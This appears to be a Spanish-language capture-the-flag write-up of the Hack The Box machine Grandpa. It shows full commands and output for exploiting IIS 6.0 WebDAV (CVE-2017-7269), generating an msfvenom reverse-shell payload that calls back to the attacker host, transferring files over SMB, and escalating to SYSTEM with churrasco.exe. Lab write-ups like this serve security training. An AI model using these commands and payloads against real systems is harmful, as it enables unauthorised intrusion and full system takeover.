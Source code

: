 ```yaml
---
title: HackTheBox - Grandpa
categories: [Windows]
tags: [HackTheBox, eJPT, Windows]
---
```


<img src="/assets/HTB/Grandpa/grandpa.png">

En este post voy a explicar como resolver la máquina Granny de [Hack The Box](https://app.hackthebox.com/machines/14), en la cual vamos a estar explotando una vulnerabilidad de un ```IIS 6.0``` y para la escalada vamos a hacer uso del exploit ```churrasco.exe```, si exactamene igual a la maquina [Granny](/posts/HackTheBox-Granny/)

## Escaneo de puertos

```
# nmap -p- -sS --min-rate 5000 -sCV -oN nmap -n -Pn 10.10.10.14
Nmap scan report for 10.10.10.14
Host is up (0.23s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
|_http-server-header: Microsoft-IIS/6.0
| http-webdav-scan:
|   Server Type: Microsoft-IIS/6.0
|   WebDAV type: Unknown
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|   Server Date: Mon, 12 Dec 2022 15:00:58 GMT
|_  Allowed Methods: OPTIONS, TRACE, GET, HEAD, COPY, PROPFIND, SEARCH, LOCK, UNLOCK
|_http-title: Under Construction
| http-methods:
|_  Potentially risky methods: TRACE COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT MOVE MKCOL PROPPATCH
| http-ntlm-info:
|   Target_Name: GRANPA
|   NetBIOS_Domain_Name: GRANPA
|   NetBIOS_Computer_Name: GRANPA
|   DNS_Domain_Name: granpa
|   DNS_Computer_Name: granpa
|_  Product_Version: 5.2.3790
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Como vemos, la página tiene el puertos 80 (HTTP) abierto.

# Enumeración
Al ingresar a la página, vemos esto.

<img src="/assets/HTB/Grandpa/grandpa-pagina.png">

Si usamos la herramienta whatweb para recopilar información del servidor web, vemos que se está utilizando ```Microsoft-IIS[6.0]```.

```
$ whatweb http://10.10.10.14/

HTTPServer[Microsoft-IIS/6.0], IP[10.10.10.14], Microsoft-IIS[6.0][Under Construction], MicrosoftOfficeWebServer[5.0_Pub], UncommonHeaders[microsoftofficewebserver], X-Powered-By[ASP.NET]
```

Esta versión del ```IIS``` es vulnerable a ```ejecución de código arbitrario```, para explotarlo vamos a hacer uso de este [exploit](https://raw.githubusercontent.com/g0rx/iis6-exploit-2017-CVE-2017-7269/master/iis6%20reverse%20shell) creado por ```g0rx```, el cual nos mandara directamente una ```reverse shell```.

# Reverse Shell

```
$ curl -s  https://raw.githubusercontent.com/g0rx/iis6-exploit-2017-CVE-2017-7269/master/iis6%20reverse%20shell -o IIS-exploit.py

$ python2 IIS-exploit.py 10.10.10.14 80 [Reverse IP] [Reverse Port]

```
```
$ rlwrap nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.14] 1030
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

c:\windows\system32\inetsrv>whoami
nt authority\network service
```

# Enumeración del sistema
Al hacer un ```whoami /priv```, veremos que tenemos el privilegio ```SeImpersonatePrivilege```, el cual podemos abusar haciendo uso del exploit ```churrasco.exe```, una alternativa al ```JuicyPotato.exe```, usaremos esa alternativa, ya que en algunos escenarios, el exploit JuicyPotato no es compatible con los sistemas más antiguos.

Lo primero que vamos a hacer es descargarnos el exploit ```churrasco.exe``` y crearnos un archivo malicioso haciendo uso de msfvenom el cual se encargue de mandarnos una reverse shell.

```
$ wget https://github.com/Re4son/Churrasco/raw/master/churrasco.exe
$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.3 LPORT=4444 EXITFUNC=thread -f exe -a x86 --platform windows -o shell.exe

No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
Saved as: shell.exe
```

Una vez creados, los transferiremos a la máquina víctima, haciendo uso de la herramienta ```impacket-smbserver```.

```
$ sudo impacket-smbserver smbFolder $(pwd) -smb2support

Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

Una vez este inicializado el servidor SMB en la máquina local, descargaremos los archivo de la siguiente forma.

```
c:\windows\system32\inetsrv>cd C:\Windows\Temp

C:\WINDOWS\Temp>copy \\10.10.14.3\smbFolder\churrasco.exe churrasco.exe
        1 file(s) copied.

C:\WINDOWS\Temp>copy \\10.10.14.3\smbFolder\shell.exe shell.exe
        1 file(s) copied.

C:\WINDOWS\Temp>dir
 Volume in drive C has no label.
 Volume Serial Number is FDCB-B9EF

 Directory of C:\WINDOWS\Temp

12/12/2022  05:09 PM    <DIR>          .
12/12/2022  05:09 PM    <DIR>          ..
12/12/2022  05:06 PM            31,232 churrasco.exe
12/12/2022  05:06 PM            73,802 shell.exe
02/18/2007  02:00 PM            22,752 UPD55.tmp
12/24/2017  07:19 PM    <DIR>          vmware-SYSTEM
12/12/2022  04:14 AM            22,554 vmware-vmsvc.log
09/16/2021  12:15 PM             5,826 vmware-vmusr.log
12/12/2022  04:17 AM               637 vmware-vmvss.log
               6 File(s)        156,803 bytes
               3 Dir(s)   1,316,003,840 bytes free

C:\WINDOWS\Temp>
```

# Escalada de privilegios

Ahora nos pondremos en escucha por el puerto que le especificamos en el archivo malicioso, y lo ejecutaremos haciendo uso del exploit ```churrasco.exe``` para que nos llegue una reverse shell como ```nt authority\system```.

```
C:\WINDOWS\Temp>churrasco.exe
/churrasco/-->Usage: Churrasco.exe [-d] "command to run"
C:\WINDOWS\Temp>churrasco.exe -d ".\shell.exe"

/churrasco/-->Current User: NETWORK SERVICE
/churrasco/-->Getting Rpcss PID ...
/churrasco/-->Found Rpcss PID: 672
/churrasco/-->Searching for Rpcss threads ...
/churrasco/-->Found Thread: 676
/churrasco/-->Thread not impersonating, looking for another thread...
/churrasco/-->Found Thread: 680
/churrasco/-->Thread not impersonating, looking for another thread...
/churrasco/-->Found Thread: 688
/churrasco/-->Thread impersonating, got NETWORK SERVICE Token: 0x730
/churrasco/-->Getting SYSTEM token from Rpcss Service...
/churrasco/-->Found NETWORK SERVICE Token
/churrasco/-->Found LOCAL SERVICE Token
/churrasco/-->Found SYSTEM token 0x728
/churrasco/-->Running command with SYSTEM Token...
/churrasco/-->Done, command should have ran as SYSTEM!
```

```
$ rlwrap nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.14] 1035
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

C:\WINDOWS\TEMP>whoami
nt authority\system
```